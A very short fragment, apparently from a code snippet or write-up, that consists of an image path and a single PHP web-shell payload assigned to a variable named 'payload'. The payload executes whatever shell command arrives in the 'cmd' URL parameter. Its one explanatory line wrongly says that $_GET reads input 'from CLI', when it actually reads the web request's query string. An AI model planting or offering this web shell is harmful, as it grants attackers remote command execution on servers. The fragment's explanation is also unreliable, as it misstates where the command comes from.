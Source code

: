 `payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'`

`$_GET[\'cmd\']` will get user input from CLI